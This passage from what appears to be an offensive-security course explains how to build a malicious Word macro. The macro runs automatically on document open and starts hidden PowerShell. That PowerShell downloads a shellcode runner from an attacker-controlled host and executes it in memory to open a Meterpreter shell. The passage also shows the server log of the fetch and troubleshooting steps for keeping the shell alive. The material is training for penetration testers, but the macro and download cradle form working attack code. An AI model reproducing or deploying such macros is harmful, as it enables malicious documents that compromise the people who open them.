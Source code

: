 Now we need to trigger this from a Word macro. However, we won't simply embed the PowerShell code in VBA. Instead, we'll create a cradle that will download our code into memory and execute it.

The code for the download cradle is shown below:

```
Sub MyMacro()
    Dim str As String
    str = "powershell (New-Object System.Net.WebClient).DownloadString('http://192.168.119.120/run.ps1') | IEX"
    Shell str, vbHide
End Sub

Sub Document_Open()
    MyMacro
End Sub

Sub AutoOpen()
    MyMacro
End Sub
```

> Listing 59 - VBA code calling the PowerShell cradle that executes the shellcode runner

First, we declared a string variable containing the PowerShell invocation of the download cradle through the _Net.WebClient class_. Once the PowerShell script has been downloaded into memory as a string, it then executes using _Invoke-Expression_ (IEX). This entire code execution is triggered with the _Shell_ command.

Notice that the download cradle references the run.ps1 in the web root of our Kali machine. To execute our code, we first copy our PowerShell shellcode runner into the run.ps1 file on our Kali Apache web server.

Next we open Microsoft Word and insert the VBA code in Listing 59 into our macro and execute it.

However, we don't catch a shell in our multi/handler. Let's try to troubleshoot.

First, we know the macro is executing because our Kali machine's Apache logs reveal the GET request for the shellcode runner as shown in Listing 60.

```
kali@kali:~$ sudo tail /var/log/apache2/access.log
...
192.168.120.11 - - [08/Jun/2020:05:21:22 -0400] "GET /run.ps1 HTTP/1.1" 200 4202 "-" "-"
```

> Listing 60 - Apache access log showing our run.ps1 script being fetched

On the Windows side, if we use Process Explorer, and we are quick, we might notice that a PowerShell process is being created but then quickly terminates.

The reason for this is fairly straightforward. Our previous VBA shellcode runner continued executing because we never terminated its parent process (Word). However, in this version, our shell dies as soon as the parent PowerShell process terminates. Our shell is essentially being terminated before it even starts.

To solve this, we must instruct PowerShell to delay termination until our shell fully executes. We'll use the Win32 _WaitSingleObject_[2](https://portal.offsec.com/courses/pen-300-9502/learning/client-side-code-execution-with-office-14698/will-you-be-my-dropper-14771/will-you-be-my-dropper-15043?category=in-progress#fn-local_id_80-2) API to pause the script and allow Meterpreter to finish.
